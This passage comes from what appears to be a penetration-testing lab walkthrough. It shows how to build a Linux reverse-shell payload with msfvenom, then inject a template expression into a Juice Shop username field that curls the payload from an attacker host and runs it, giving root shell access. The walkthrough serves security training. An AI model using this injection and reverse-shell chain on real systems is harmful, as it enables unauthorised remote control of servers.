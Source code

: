 \newpage

Here is a quick explanation of each parameters:

* `-p linux/x86/shell_reverse_tcp` --> specify the payload we want, in this case a Reverse shell using TCP and running on linux OS (we know the os from scenario 1!)
*  `LHOST=192.168.4.3` --> this is the IP that the reverse shell will connect
* `LPORT=4444` --> this is the port the reverse shell will use to connect ( that is why the netcat command is listening to port 4444)
* `-f elf` --> that is the format of the payload, elf format being the executable format on linux
* `-o shell` --> simply specify the name of the payload we want

Once the payload is created in the directory `/root`, we can set the following username :
```javascript
#{global.process.mainModule.require('child_process').exec('curl 
http://192.168.4.3/shell -o shell && chmod +x shell && ./shell')}
```
After setting the username, check the two terminals containing the python http server and the other containing the netcat command. You should see confirmation of the download shell from python http server and also, a confirmation on the netcat command that you are connected: `connect to [192.168.4.3] from (UNKNOWN) [192.168.4.10] 52746`. It means you can run commands on the server from the netcat terminal !

Try running `ls` or `pwd` or even `whoami` commands.

If you want to upgrade your netcat terminal to a tty, run the following :
![](./Images/Image24.png)

 You now have a reverse shell into the HTTP server with root access ! Which means you pwned Juice-shop and can use it to do the scenario 1 again, but directly from inside the DMZ. Usually, with more strict firewalls, you might be able to do specific scans only from the inside of the DMZ for example !